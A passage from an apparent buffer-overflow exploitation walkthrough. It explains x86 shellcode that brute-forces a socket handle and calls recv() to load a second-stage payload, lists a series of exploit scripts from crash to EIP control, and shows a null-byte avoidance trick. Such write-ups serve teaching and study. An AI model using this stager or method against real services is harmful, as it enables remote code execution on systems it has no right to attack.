mov ebx,esp             ; Move the current pointer of ESP into EBX
add ebx,0x64            ; Point EBX the original ESP to make it the pointer to
						; where our stage-2 payload will be received
push ebx                ; Push `*buf` parameter = Pointer to ESP+0x64
inc edi                 ; Make EDI = EDI + 1
push edi                ; Push socket handle `s` parameter = EDI, For each loop we increment EDI
mov eax,0x74F123A0      ; We need to make EAX = 0x74F123A0 but we can't inject if there are null bytes in this.
                        ; Since there are none we do not need to do any shifting
call eax                ; Call recv()
test eax,eax            ; Check if our recv() call was successfully made
jnz socket_loop         ; If recv() failed, jump back to the socket loop where
						; EDI will be increased to check the next socket handle
```

We first adjust the stack pointer that is stored in the `ESP` register: `sub esp,0x64`. This is done to prevent the function calls from overwriting our shell code when stack frames and arguments are written to the stack.


The `EDI` register will be used to store our Socket Handle; this is simply an integer value. Since we are brute forcing this we need to start at zero. We achieve this with the following instruction: `xor edi,edi`. By XORing a value with itself we get the value of zero.

Following this we have a label `socket_loop:`. This is used to create the loop by giving us a way to *easily* jump backwards in the code. 

Next we configure the stack for a call to the `recv(...)` function; Remember that we place the arguments onto the stack in reverse order. First we zero out a register with the following instruction: `xor ebx,ebx`. This is done so we can place a zero onto the stack for the *Flag* argument with the instruction: `push ebx`. Then we add 0x4 to the *bh* register: `add bh,0x4`, this is done so the `EBX` register which was zero now contains the value 1024. This is because we place the value `0x4` into the *high* registers (bytes 8 - 15) of the `EBX` register. The value 1024 is placed onto the stack again with the push instruction: `push ebx`.  The instructions `mov ebx,esp` and `add ebx,0x64` setup the location we will write the received data to, in this case we load the stack pointer into the `EBX` register, and sets it to the original `ESP` location before the initial subtraction; This is so the received second stage will be written to a nearby location. This is added to the stack with the instruction `push ebx`. The final parameter is configured with the instructions `inc edi` and `push edi`; the `inc edi` is used for our brute forcing of the Socket Handle and `push edi` places it onto the stack. Finally we make the call to the `recv(...)` function using `mov eax,0x74F123A0` by moving the address of `recv(...)` that we discovered earlier (subject to change) and using `call eax` to call the function. We then check if the function succeeded using `test eax,eax` and if the returned value is not zero `jnz socket_loop` we repeat the loop; otherwise we fall through into the stage-2 shellcode we wrote to the stack with our `recv(...)` call.  


## Test code
1. [exploit0.py](./SourceCode/exploit0.py): Sending 100 `A`s to crash the server.
2. [exploit1.py](./SourceCode/exploit1.py): Sending a cyclic pattern of chars to identify the offset that we need to inject to control EIP.
3. [exploit2.py](./SourceCode/exploit2.py): Sending 66 `A`s followed by 4 `B`s to verify the offset we discovered from the Cyclic Group
4. [exploit3.py](./SourceCode/exploit3.py): Replacing the bytes at the offset discovered by exploit1.py with the address of an *JMP ESP* instruction.
5. [exploit4.py](./SourceCode/exploit4.py): Adding a short *JMP* instruction for jumping to the start of the buffer.
6. [exploit5.py](./SourceCode/exploit5.py): Adding the first stage of code (Code Reuse).
7. [exploit6.py](./SourceCode/exploit6.py): Adding the second stage of code.
8. [shellcode.asm](./SourceCode/shellcode.asm): Adding assembly code for calling recv() by brute forcing the Socket Handle.
9. [extract.sh](./SourceCode/extract.sh): Formats machine code generated by `nasm` and stored in the shellcode.o file.

## Note

The shifting described in the blog is as follows:
```s
mov eax,0x40252C90      ; We need to make EAX = 0040252C but we can't inject
                        ; null bytes. So 40252C90 is shift-left padded with 90
shr eax,0x8             ; Remove the '90' byte of EAX by shifting right and
                        ; This makes EAX = 0040252C
```
* `mov eax,0x40252C90`: Put the address of the `recv(...)` function into *eax*, this contains `0x90` as the original `0x0040252C` has null bytes.
* `shr eax,0x8`: Shifts the eax register right 8 bits to add the leading null byte.
